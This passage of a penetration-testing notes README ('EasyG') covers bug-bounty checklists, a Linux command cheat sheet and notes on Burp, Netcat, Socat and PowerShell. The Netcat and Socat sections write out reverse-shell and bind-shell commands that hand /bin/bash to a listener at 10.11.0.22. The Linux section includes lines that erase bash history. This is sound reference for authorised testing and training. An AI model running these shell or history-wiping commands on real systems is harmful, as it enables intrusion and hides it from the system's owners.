




```ruby
███████╗ █████╗ ███████╗██╗   ██╗ ██████╗
██╔════╝██╔══██╗██╔════╝╚██╗ ██╔╝██╔════╝
█████╗  ███████║███████╗ ╚████╔╝ ██║  ███╗
██╔══╝  ██╔══██║╚════██║  ╚██╔╝  ██║   ██║
███████╗██║  ██║███████║   ██║   ╚██████╔╝
╚══════╝╚═╝  ╚═╝╚══════╝   ╚═╝    ╚═════╝
Made with <3 by Riccardo Malatesta (@seeu)
```
[](LICENSE)
[](https://github.com/ellerbrock/open-source-badges/)

EasyG started out as a script that I use to automate some information gathering tasks for my hacking process, [you can find it here](easyg.rb). Now it's more than that. Here I gather all the resources about hacking that I find interesting: notes, payloads, tools and more.


## Table of Contents

- [Resources](#resources)
- [Useful tips](#useful-tips)
- [Check-lists](#check-lists)
  - [Toolset](#toolset) 
  - [Testing layers](#testing-layers)
  - [Penetration Testing cycle](#penetration-testing-cycle)
  - [Bug Bounty Hunting](#bug-bounty-hunting)
    - [Multiple targets](#multiple-targets)
    - [Single target](#single-target)
- [Linux](#linux)
- [Tools](#tools)
  - [EasyG](#easyg)
  - [Burp Suite](#burp-suite)
  - [Netcat](#netcat)
  - [Socat](#socat)
  - [PowerShell](#powershell)
  - [WireShark](#wireshark)
  - [Tcpdump](#tcpdump)
  - [Bash scripting](#bash-scripting)
  - [Metasploit Framework](#metasploit-framework)
    - [Starting Metasploit](#starting-metasploit)
    - [MSF Syntax](#msf-syntax)
    - [Exploit Modules](#exploit-modules)
    - [Post-Exploitation](#post-exploitation)
  - [Others](#others)
- [Passive Information Gathering (OSINT)](#passive-information-gathering-osint)
  - [Notes](#notes)
  - [Tools](#tools-1)
  - [User Information Gathering](#user-information-gathering)
- [Active Information Gathering](#active-information-gathering)
  - [DNS Enumeration](#dns-enumeration)
  - [Port Scanning](#port-scanning)
    - [Netcat](#netcat-1)
    - [Nmap](#nmap)
    - [Masscan](#masscan)
    - [Other tools](#other-tools)
  - [SMB Enumeration](#smb-enumeration)
  - [NFS Enumeration](#nfs-enumeration)
  - [SNMP Enumeration](#snmp-enumeration)
- [Content Discovery](#content-discovery)
  - [Google Dorking](#google-dorking)
  - [GitHub Dorking](#github-dorking)
- [Networking](#networking)
- [Mobile](#mobile)
- [Source code review](#source-code-review)
- [Vulnerability Scanning](#vulnerability-scanning)
  - [Nessus](#nessus)
  - [Nmap](#nmap-1)
  - [Nikto](#nikto)
  - [Nuclei](#nuclei)
- [Web vulnerabilities](#web-vulnerabilities)
  - [SQL Injection](#sql-injection)
  - [Authentication vulnerabilities](#authentication-vulnerabilities)
  - [Directory Traversal](#directory-traversal)
  - [File inclusion](#file-inclusion)
  - [OS Command Injection](#os-command-injection)
  - [Business logic vulnerabilities](#business-logic-vulnerabilities)
  - [Information Disclosure](#information-disclosure)
  - [Access control vulnerabilities and privilege escalation](#access-control-vulnerabilities-and-privilege-escalation)
  - [File upload vulnerabilities](#file-upload-vulnerabilities)
  - [Server-side request forgery (SSRF)](#server-side-request-forgery-ssrf)
  - [Open redirection](#open-redirection)
  - [XXE injection](#xxe-injection)
  - [Cross-site scripting (XSS)](#cross-site-scripting-xss)
  - [Cross-site request forgery (CSRF)](#cross-site-request-forgery-csrf)
  - [Cross-origin resource sharing (CORS)](#cross-origin-resource-sharing-cors)
  - [Clickjacking](#clickjacking)
  - [DOM-based vulnerabilities](#dom-based-vulnerabilities)
  - [WebSockets](#websockets)
  - [Insecure deserialization](#insecure-deserialization)
  - [Server-side template injection](#server-side-template-injection)
  - [Web cache poisoning](#web-cache-poisoning)
  - [HTTP Host header attacks](#http-host-header-attacks)
  - [HTTP request smuggling](#http-request-smuggling)
  - [OAuth authentication](#oauth-authentication)
  - [JWT Attacks](#jwt-attacks)
  - [Abusing S3 Bucket Permissions](#abusing-s3-bucket-permissions)
  - [Google Cloud Storage bucket](#google-cloud-storage-bucket)
  - [GraphQL](#graphql)
  - [WordPress](#wordpress)
  - [IIS - Internet Information Services](#iis---internet-information-services)
  - [Lotus Domino](#lotus-domino)
  - [Git source code exposure](#git-source-code-exposure)
  - [Subdomain takeover](#subdomain-takeover)
  - [4** Bypass](#4-bypass)
  - [Application level Denial of Service](#application-level-denial-of-service)
- [Client-Side Attacks](#client-side-attacks)
  - [Client Information Gathering](#client-information-gathering)
  - [HTML applications](#html-applications)
  - [Microsoft Office](#microsoft-office)
- [Thick client vulnerabilities](#thick-client-vulnerabilities)
  - [DLL Hijacking](#dll-hijacking)
  - [Insecure application design](#insecure-application-design)
  - [Weak Hashing Algorithms](#weak-hashing-algorithms)
  - [Cleartext secrets in memory](#cleartext-secrets-in-memory)
  - [Hardcoded secrets](#hardcoded-secrets)
  - [Unsigned binaries](#unsigned-binaries)
  - [Lack of verification of the server certificate](#lack-of-verification-of-the-server-certificate)
  - [Insecure SSL/TLS configuration](#insecure-ssltls-configuration)
  - [Remote Code Execution via Citrix Escape](#remote-code-execution-via-citrix-escape)
  - [Direct database access](#direct-database-access)
  - [Insecure Windows Service permissions](#insecure-windows-service-permissions)
  - [Code injection](#code-injection)
  - [Windows persistence](#windows-persistence)
- [System Attacks](#system-attacks)
  - [Password Attacks](#password-attacks)
    - [Wordlists](#wordlists)
    - [Password Cracking](#password-cracking)
      - [John the Ripper](#john-the-ripper)
      - [Ophcrack](#ophcrack)
    - [Common Network Service Attack Methods](#common-network-service-attack-methods)
      - [Medusa, HTTP htaccess Attack](#medusa-http-htaccess-attack)
      - [Crowbar, Remote Desktop Protocol Attack](#crowbar-remote-desktop-protocol-attack)
      - [THC Hydra, SSH Attack](#thc-hydra-ssh-attack)
      - [THC Hydra, HTTP POST Attack](#thc-hydra-http-post-attack)
    - [Leveraging Password Hashes](#leveraging-password-hashes)
      - [mimikatz](#mimikatz)
      - [Pass-the-Hash](#pass-the-hash)
  - [Buffer Overflow](#buffer-overflow)
- [Artificial intelligence vulnerabilities](#artificial-intelligence-vulnerabilities)
  - [Prompt Injection](#prompt-injection)


## Resources

**Blogs**
- [Skeleton Scribe (albinowax)](https://www.skeletonscribe.net)
- [PortSwigger Research](https://portswigger.net/research)

**Reports**
- [Pentest reports](https://pentestreports.com/)
- [Public pentesting reports](https://github.com/juliocesarfort/public-pentesting-reports)
- [Facebook-BugBounty-Writeups](https://github.com/jaiswalakshansh/Facebook-BugBounty-Writeups)
- [List of bug-bounty writeups](https://pentester.land/list-of-bug-bounty-writeups.html)

**News**
- [CVE trends](https://cvetrends.com/)
- [Packet Storm](https://packetstormsecurity.com/)
- [PortSwigger/research](https://portswigger.net/research)
- [all InfoSec news](https://allinfosecnews.com/)

**Newsletter**
- [Bug Bytes](https://blog.intigriti.com/category/bugbytes/)
- [Executive Offense](https://executiveoffense.beehiiv.com/subscribe)

## Useful tips

- For RCE 
  - Never upload a shell at first, you can be banned from a program. Just execute a `whoami` as a PoC, proceed with a shell if required/allowed.
- For stored XSS
  - `console.log()` is better than `alert()`, it makes less noise especially for stored XSS.
- For SQLi
  - Don't dump the entire db, you can be banned from a program. Just retrieve the db's name, version and/or other minor infos. Proceed with db dump only if required/allowed;
  - Don't use tautologies like `OR 1=1`, it can end up in a delete query or something dangerous. It's better to use `AND SLEEP(5)` or `te'+'st`.
- For subdomain takeovers
  - use as a PoC an html page like:<br/>
    9a69e2677c39cdae365b49beeac8e059.html
    ```HTML
    <!-- PoC by seeu -->
    ```


## Check-lists

- [SMB-Checklist](https://github.com/pentesterzone/pentest-checklists/blob/master/Services/SMB-Checklist.md)
- [Win32 Offensive Cheatsheet](https://github.com/matthieu-hackwitharts/Win32_Offensive_Cheatsheet)
- [Regexp Security Cheatsheet](https://github.com/attackercan/regexp-security-cheatsheet)
- [Cheat-Sheet - Active-Directory](https://github.com/drak3hft7/Cheat-Sheet---Active-Directory)
- [Security Testing of Thick Client Application](https://medium.com/@david.valles/security-testing-of-thick-client-application-15612f326cac)

### <ins>Toolset</ins>
- [ ] [EasyG](#easyg) and all the connected tools
- [ ] [Burp Suite](#burp-suite) and all the extensions
- [ ] [Kali Linux](https://www.kali.org/) since it has everything you need

### <ins>Testing layers</ins>
- [ ] Integrations
- [ ] Application Libraries (usually JavaScript)
- [ ] Application: Custom Code or COTS
- [ ] Application Framework
- [ ] Web Hosting Software (Default creds, Web server misconfigurations, web exploits)
- [ ] Open Ports and Services (Default creds on services, service level exploits)

### <ins>Penetration Testing cycle</ins>

1. Information gathering ([Passive Information Gathering (OSINT)](#passive-information-gathering-osint))
3. Servize enumeration ([Active Information Gathering](#active-information-gathering), [Content Discovery](#content-discovery))
4. Cicle
   - Penetration
   - Maintaining access (Trojans)
5. House keeping (Cleaning up rootkits)

### <ins>Bug Bounty Hunting</ins>

#### **Multiple targets**
- [ ] Run EasyG assetenum
- [ ] Select the interesting targets
  - Pass the subdomains to Burp Suite
  - Open them in Firefox
- [ ] Check for mobile/desktop applications
  - If there are any other non-web application, use Apkleak and Source2Url (even if OoS)

#### **Single target**
- [ ] Recon
  + Explore the app, see and every functionality (eventually, search for documentation)
  + Crawl with Burp Suite
  + Collect endpoints with [BurpJSLinkFinder](https://github.com/InitRoot/BurpJSLinkFinder)
  + [Content Discovery](#content-discovery), use tools, [Google Dorking](#google-dorking) and [GitHub Dorking](#github-dorking)
  + Check the [Testing layers](#testing-layers)
- [ ] Authentication
  - See [Authentication vulnerabilities](#authentication-vulnerabilities)
  - Account Section
    - Profile
      - Stored or Blind [XSS](#cross-site-scripting-xss)
    - App Custom Fields
    - Integrations
      - [SSRF](#server-side-request-forgery-ssrf), [XSS](#cross-site-scripting-xss)
- [ ] [Upload Functions](#file-upload-vulnerabilities)
- [ ] Email functions, check if you can send emails from the target
  - [ ] Spoofing
  - [ ] HTML Injection
  - [ ] [XSS](#cross-site-scripting-xss)
- [ ] Feedback functions
  - Look for [Blind XSS](#cross-site-scripting-xss)
- [ ] Broken Access Control, IDOR & co
  - [IDOR Checklist](https://twitter.com/hunter0x7/status/1580211248037126145) 
- [ ] Content Types
  - Look for multipart-forms
  - Look for content type XML
  - Look for content type json
- [ ] APIs
  - Methods
  - [API Security Checklist](https://github.com/shieldfy/API-Security-Checklist)
- [ ] Errors
  - Change POST to GET
- [ ] [OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/index.html), check also
  - [OWASP Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
  - [OWASP Web Application Penetration Checklist](https://wiki.owasp.org/index.php/Testing_Checklist)
- [ ] [Look at the index of this repo](#index) and see if you've missed anything interesting


## Linux

Note: a lot of these commands are from [RTFM: Red Team Field Manual](https://www.goodreads.com/en/book/show/21419959) by Ben Clark and from [PEN-200: Penetration Testing with Kali Linux](https://www.offsec.com/courses/pen-200/) by Offensive Security.

<ins>**Linux Services and Networking**</ins>
```
netstat -tulpn                                           Show Linux network ports with process ID’s (PIDs)
watch ss -stplu                                          Watch TCP, UDP open ports in real time with socket summary
lsof -i                                                  Show established connections
macchanger -m MACADDR INTR                               Change MAC address on KALI Linux
ifconfig eth0 192.168.2.1/24                             Set IP address in Linux
ifconfig eth0:1 192.168.2.3/24                           Add IP address to existing network interface in Linux
ifconfig eth0 hw ether MACADDR                           Change MAC address in Linux using ifconfig
ifconfig eth0 mtu 1500                                   Change MTU size Linux using ifconfig, change 1500 to your desired MTU
dig -x 192.168.1.1                                       Dig reverse lookup on an IP address
host 192.168.1.1                                         Reverse lookup on an IP address, in case dig is not installed
dig @192.168.2.2 domain.com -t AXFR                      Perform a DNS zone transfer using dig
host -l domain.com nameserver                            Perform a DNS zone transfer using host
nbtstat -A x.x.x.x                                       Get hostname for IP address
ip addr add 192.168.2.22/24 dev eth0                     Adds a hidden IP address to Linux, does not show up when performing an ifconfig
tcpkill -9 host google.com                               Blocks access to google.com from the host machine
echo \"1\" > /proc/sys/net/ipv4/ip_forward               Enables IP forwarding, turns Linux box into a router – handy for routing traffic through a box
echo \"8.8.8.8\" > /etc/resolv.conf                      Use Google DNS
sudo systemctl start ssh                                 Start the SSH service in Kali
sudo ss -antlp | grep sshd                               Confirm that SSH has been started and is running
sudo systemctl enable ssh                                Configure SSH to start at boot time
sudo systemctl start apache2                             Start the apache service in Kali
sudo ss -antlp | grep apache                             Confirm that apache has been started and is running
sudo systemctl enable apache2                            Enable apache to start at boot time
systemctl list-unit-files                                Display all available services
ps -fe                                                   Common ps syntax to list all the processes currently running; f: display full format listing (UID, PID, PPID, etc.), e: select all processes, C: select by command name
sudo tail -f /var/log/apache2/access.log                 Monitor the Apache log file using tail command
```

<ins>**Linux User Management**</ins>
```
whoami                                                   Shows currently logged in user on Linux
id                                                       Shows currently logged in user and groups for the user
last                                                     Shows last logged in users
mount                                                    Show mounted drives
df -h                                                    Shows disk usage in human readable output
echo \"user:passwd\" | chpasswd                          Reset password in one line
getent passwd                                            List users on Linux
strings /usr/local/bin/blah                              Shows contents of none text files, e.g. whats in a binary
uname -ar                                                Shows running kernel version
history                                                  Show bash history, commands the user has entered previously
```

<ins>**Linux File Commands**</ins>
```
df -h blah                                               Display size of file / dir Linux
diff file1 file2                                         Compare / Show differences between two files on Linux
md5sum file                                              Generate MD5SUM Linux
md5sum -c blah.iso.md5                                   Check file against MD5SUM on Linux, assuming both file and .md5 are in the same dir
file blah                                                Find out the type of file on Linux, also displays if file is 32 or 64 bit
dos2unix                                                 Convert Windows line endings to Unix / Linux
base64 < input-file > output-file                        Base64 encodes input file and outputs a Base64 encoded file called output-file
base64 -d < input-file > output-file                     Base64 decodes input file and outputs a Base64 decoded file called output-file
touch -r ref-file new-file                               Creates a new file using the timestamp data from the reference file, drop the -r to simply create a file
rm -rf                                                   Remove files and directories without prompting for confirmation
mkdir -p pt/{recon,exploit,report}                       This command will create a directory pt and inside of it the directories recon, exploit and report
ls /etc/apache2/wwwold/*.conf                            Display files with certain criteria
ls -a                                                    -a option is used to display all files
ls -1                                                    Display each file in a single line
ls -l                                                    Shows detailed information about the files and directories in a directory
ls -la /usr/bin | grep zip                               Search for any file(s) in /usr/bin containing "zip"
pwd                                                      Print the current directory
cd ~                                                     Return to the home/user directory
echo "test1" > test.txt                                  Saves "test1" in the new file "test.txt"
echo "test2" >> test.txt                                 Add in a new line "test2" in the file "test.txt"
echo "hack::the::world" | awk -F "::" '{print $1, $3}'   Extr fields from a stream using a multi-character separator in awk
comm scan-a.txt scan-b.txt                               Compare files
diff -c scan-a.txt scan-b.txt                            Compare files, context format
diff -u scan-a.txt scan-b.txt                            Compare files, unified format
vimdiff scan-a.txt scan-b.txt                            Compare files using vim
```

<ins>**Misc Commands**</ins>
```
init 6                                                   Reboot Linux from the command line
gcc -o output.c input.c                                  Compile C code
gcc -m32 -o output.c input.c                             Cross compile C code, compile 32 bit binary on 64 bit Linux
unset HISTORYFILE                                        Disable bash history logging
rdesktop X.X.X.X                                         Connect to RDP server from Linux
kill -9 $$                                               Kill current session
chown user:group blah                                    Change owner of file or dir
chown -R user:group blah                                 Change owner of file or dir and all underlying files / dirs – recersive chown
chmod 600 file                                           Change file / dir permissions, see [Linux File System Permissons](#linux-file-system-permissions) for details
ssh user@X.X.X.X | cat /dev/null > ~/.bash_history       Clear bash history
man -k '^passwd$'                                        See the documentation of a command. Use the flag -k for keyword research
man 5 passwd                                             See the page 5 of the documentation
apropos descr                                            See wich description from docs matches the input for apropos
locate sbd.exe                                           Locate "sbd.exe"
sudo find / -name sbd*                                   Perform recursive search starting from root file system directory and look for files that starts with "sbd"
which sbd                                                Search in $PATH "sbd"
apt-cache search pure-ftpd                               Search for the pure-ftpd application
apt show resource-agents                                 Examine information related to the resource-agents package
sudo apt install pure-ftpd                               apt install the pure-ftpd application
sudo apt remove --purge pure-ftpd                        apt remove –purge to completely remove the pure-ftpd application
sudo dpkg -i man-db_2.7.0.2-5_amd64.deb                  dpkg -i to install the man-db application
echo "I need to try hard" | sed 's/hard/harder/'         Replac a word in the output stream
echo "Hack.The.World."| cut -f 3 -d "."                  Extract fields from the echo command output using cut
cut -d ":" -f 1 /etc/passwd                              Extract usernames from /etc/passwd using cut
wc -m < test.txt                                         Feed the wc command with the < operator
cat test.txt | wc -m                                     Pip the output of the cat command into wc
wget -O report_w.pdf https://of.io/report.pdf            Download a file through wget
curl -o report_c.pdf https://of.io/report.pdf            Download a file with curl
axel -a -n 20 -o report_a.pdf https://of.io/report.pdf   Download a file with axel; -n: number of multiple connections to use, -a: more concise progress indicator, -o specify a different file name for the downloaded file
alias lsa='ls -la'                                       Create an alias "lsa" to execute the command "ls -la"
alias mkdir='ping -c 1 localhost'                        Creat an alias that overrides the mkdir command
unalias mkdir                                            Unsett an alias
cat ~/.bashrc                                            Examin the ".bashrc" default file, the system-wide file for Bash settings located at "/etc/bash.bashrc"
chmod +x                                                 Make a file executable
```

<ins>**Linux environment variables**</ins>
```
export vartest=8.8.8.8                                   Declare an environment variable
env                                                      See all declared environment variables
$$                                                       Env var; Display the ID of the current shell instance
$PATH                                                    Env var; List of directories for the shell to locate executable files
PATH=$PATH:/my/new-path                                  Add a new PATH, handy for local FS manipulation
$USER                                                    Env var; Current user
$PWD                                                     Env var; Current directory path
$HOME                                                    Env var; Home directory path
HISTCONTROL                                              Env var; Defines whether or not to remove duplicate commands
export HISTCONTROL=ignoredups                            Remove duplicates from our bash history
export HISTIGNORE="&:ls:[bf]g:exit:history"              Filter basic, common commands
export HISTTIMEFORMAT='%F %T '                           Include the date/time in our bash history
```

<ins>**Linux File System Permissions**</ins>
```
777 rwxrwxrwx                                            No restriction, global WRX any user can do anything
755 rwxr-xr-x                                            Owner has full access, others can read and execute the file
700 rwx------                                            Owner has full access, no one else has access
666 rw-rw-rw-                                            All users can read and write but not execute
644 rw-r--r--                                            Owner can read and write, everyone else can read
600 rw-------                                            Owner can read and write, everyone else has no access
```

<ins>**Linux Directories**</ins>
```
/                                                        / also know as “slash” or the root
/bin                                                     Common programs, shared by the system, the system administrator and the users
/boot                                                    Boot files, boot loader (grub), kernels, vmlinuz
/dev                                                     Contains references to system devices, files with special properties
/etc                                                     Important system config files
/home                                                    Home directories for system users
/lib                                                     Library files, includes files for all kinds of programs needed by the system and the users
/lost+found                                              Files that were saved during failures are here
/mnt                                                     Standard mount point for external file systems
/media                                                   Mount point for external file systems (on some distros)
/net                                                     Standard mount point for entire remote file systems – nfs
/opt                                                     Typically contains extra and third party software
/proc                                                    A virtual file system containing information about system resources
/root                                                    root users home dir
/sbin                                                    Programs for use by the system and the system administrator
/tmp                                                     Temporary space for use by the system, cleaned upon reboot
/usr                                                     Programs, libraries, documentation etc. for all user-related programs
/var                                                     Storage for all variable files and temporary files created by users, such as log files, mail queue, print spooler, Web servers, Databases etc
```

<ins>**Linux Interesting Files / Directories**</ins>
```
/etc/passwd                                              Contains local Linux users
/etc/shadow                                              Contains local account password hashes
/etc/group                                               Contains local account groups
/etc/init.d/                                             Contains service init script – worth a look to see whats installed
/etc/hostname                                            System hostname
/etc/network/interfaces                                  Network interfaces
/etc/resolv.conf                                         System DNS servers
/etc/profile                                             System environment variables
~/.ssh/                                                  SSH keys
~/.bash_history                                          Users bash history log
/var/log/                                                Linux system log files are typically stored here
/var/adm/                                                UNIX system log files are typically stored here
/var/log/apache2/access.log                              Apache access log file typical path
/var/log/httpd/access.log                                Apache access log file typical path
/etc/fstab                                               File system mounts
```

<ins>**Examples**</ins>

- Search the /etc/passwd file for users with a shell set to /bin/false and prints the username and home directory of each user found:
`cat /etc/passwd | awk -F: '{if ($7 == "/bin/false") print "The user " $1 " home directory is " $6}'`
- Inspect Apache logs
  1. Get IPs in access.log, count the frequency and sort them: `cat access.log | cut -d " " -f 1 | sort | uniq -c | sort -urn`
  2. From the log file, pick one IP:  `cat access.log | grep '108.38.224.98' | cut -d "\"" -f 2 | uniq -c`
  3. Further inspect user's behavior: `cat access.log | grep '108.38.224.98' | grep '/admin ' | sort -u`
- [Mounting a Shared Folder on a Linux Computer](https://docs.qnap.com/operating-system/qts/4.5.x/en-us/GUID-445D5C06-7E5A-4232-AC76-CDAF48EDB655.html)
  - `mount <NAS Ethernet Interface IP>:/share/<Shared Folder Name> <Directory to Mount>`

## Tools


### <ins>EasyG</ins>

[EasyG](easyg.rb) is a script that I use to automate some information gathering tasks for my hacking process. It uses: amass, subfinder, github-subdomains, gobuster, anew, httprobe, naabu and nuclei. Install the necessary tools with [install.bat](install.bat) or [install.sh](install.sh) and then run `ruby easyg.rb help`.

- [XSS all the things](XSS%20all%20the%20things/) some payloads to find XSS in various places
- [lists](lists/)
  - [findtheevent.txt](lists/findtheevent.txt) and [findthetag.txt](lists/findthetag.txt) helps me test for XSS faster
- [scripts](scripts/)
  - [fg.rb](scripts/fg.rb) a copy of [tomnomnom/gf](https://github.com/tomnomnom/gf) made in ruby
  - [nuclei_checks.rb](scripts/nuclei_checks.rb) perform some nuclei scans with a list of targets as an input
  - [paramspider_support.rb](scripts/paramspider_support.rb) use paramspider with a list of targets as an input, delete duplicate results
  - [searchsploit&download.sh](scripts/searchsploit&download.sh) download all the desired exploits using some Bash-fu
  - [selenium.rb](scripts/selenium.rb) take screenshots from a list of targets as an input
  - [smtp_vrfy.py](scripts/smtp_vrfy.py) script for SMTP user enumeration
  - [zip.py](scripts/zip.py) create custom zip files
  - [zone_transfer.sh](scripts/zone_transfer.sh) DNS zone transfer script
- [shells](shells/) to test file uploads


### <ins>Burp Suite</ins>

- To add a domain + subdomains in advanced scopes: `^(.*\.)?test\.com$`
- [To fix visual glitches](https://forum.portswigger.net/thread/visual-glitches-within-burp-on-secondary-screen-390bebb0)
- To add a new header
  ```
  1. Go to Proxy -> Options -> Match and Replace -> Add
  2. Change Type to Request Header
  3. As the default text says in Match 'leave blank to add a new header'
  4. Put the new header in Replace
  ```
- Analyze better the results from Intruder with Settings > "Grep - Extract"
  - Manually select in the response the value that you want to track in a new column in the results


**Cool extensions**
- [Turbo Intruder](https://github.com/PortSwigger/turbo-intruder)
- [HTTP Request Smuggler](https://github.com/PortSwigger/http-request-smuggler)
- [Wsdler](https://github.com/NetSPI/Wsdler) to interact with SOAP
- [InQL](https://portswigger.net/bappstore/296e9a0730384be4b2fffef7b4e19b1f)
- [Swagger-EZ](https://github.com/RhinoSecurityLabs/Swagger-EZ)
- [BurpCustomizer](https://github.com/CoreyD97/BurpCustomizer)
- [Software Version Reporter](https://portswigger.net/bappstore/ae62baff8fa24150991bad5eaf6d4d38)
- [Software Vulnerability Scanner](https://portswigger.net/bappstore/c9fb79369b56407792a7104e3c4352fb)
- [IP Rotate](https://portswigger.net/bappstore/2eb2b1cb1cf34cc79cda36f0f9019874)
- [Autorize](https://github.com/PortSwigger/autorize)
- [BurpJSLinkFinder](https://github.com/InitRoot/BurpJSLinkFinder)
- [Anonymous Cloud](https://portswigger.net/bappstore/ea60f107b25d44ddb59c1aee3786c6a1)
- [Upload Scanner](https://portswigger.net/bappstore/b2244cbb6953442cb3c82fa0a0d908fa)
- [JWT Editor](https://portswigger.net/bappstore/26aaa5ded2f74beea19e2ed8345a93dd)
- [GetAllParams evolution](https://github.com/xnl-h4ck3r/GAP-Burp-Extension)
- [Burp Bounty](https://burpbounty.net/)

**Browser extensions**
- [Trufflehog Chrome Extension](https://github.com/trufflesecurity/Trufflehog-Chrome-Extension)
- [Wappalyzer](https://www.wappalyzer.com/)
- [DotGit](https://github.com/davtur19/DotGit)
- [Cookie-Editor](https://cookie-editor.cgagnier.ca/)
- [Shodan for Chrome](https://chrome.google.com/webstore/detail/shodan/jjalcfnidlmpjhdfepjhjbhnhkbgleap) and [for Firefox](https://addons.mozilla.org/en-US/firefox/addon/shodan_io/)
- If you are using FireFox, you could use [FoxyProxy](https://getfoxyproxy.org/)


### <ins>Netcat</ins>

**Misc Commands**
```
nc -nv 10.11.0.22 110                                                        Connect to a TCP port
nc -nlvp 4444                                                                Set up a listener
nc -nv 10.11.0.22 4444                                                       Connect to a listener
nc -nlvp 4444 > incoming.exe                                                 Receive a file
nc -nv 10.11.0.22 4444 < /usr/share/windows-resources/binaries/wget.exe      Transfer a file
nc -nlvp 4444 -e cmd.exe                                                     Set up a bind shell
nc -nv 10.11.0.22 4444 -e /bin/bash                                          Send a reverse shell
```

**Port Scanning**
```
nc -nvv -w 1 -z 10.11.1.220 3388-3390                        Use netcat to perform a TCP port scan
nc -nv -u -z -w 1 10.11.1.115 160-162                        Use netcat to perform an UDP port scan
```

### <ins>Socat</ins>

**Misc Commands**
```
socat - TCP4:<remote server's ip address>:80                                 Connect to a remote server on port 80
socat TCP4-LISTEN:443 STDOUT                                                 Create a listener
socat -d -d TCP4-LISTEN:443 STDOUT                                           Create a listener, -d -d for more verbosity
socat TCP4-LISTEN:443,fork file:secret.txt                                   Transfer a file
socat TCP4:10.11.0.4:443 file:received_secret.txt,create                     Receive a file
socat TCP4:10.11.0.22:443 EXEC:/bin/bash                                     Send a reverse shell
socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash    Create an encrypted bind shell
socat - OPENSSL:10.11.0.4:443,verify=0                                       Connect to an encrypted bind shell
```

**Reverse Shell**
```
socat -d -d TCP4-LISTEN:443 STDOUT                                           User 1, create a listener
socat TCP4:10.11.0.22:443 EXEC:/bin/bash                                     User 2, send reverse shell to User 1
```

**Encrypted bind shell with OpenSSL**
```
$ openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 365 -out bind_shell.crt

  req: initiate a new certificate signing request
  -newkey: generate a new private key
  rsa:2048: use RSA encryption with a 2,048-bit key length.
  -nodes: store the private key without passphrase protection
  -keyout: save the key to a file
  -x509: output a self-signed certificate instead of a certificate request
  -days: set validity period in days
  -out: save the certificate to a file

$ cat bind_shell.key bind_shell.crt > bind_shell.pem
$ sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash    Create an encrypted bind shell
$ socat - OPENSSL:10.11.0.4:443,verify=0                                            Connect to the encrypted bind shell
```

### <ins>PowerShell</ins>

**Misc Commands**
```
Set-ExecutionPolicy Unrestricted                                                                                  Set the PowerShell execution policy
Get-ExecutionPolicy                                                                                               Get value for ExecutionPolicy
(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')    Download a file
powershell -c "command"                                                                                           The -c option will execute the supplied command as if it were typed at the PowerShell prompt
```


**Send a reverse shell with PowerShell**
- ```
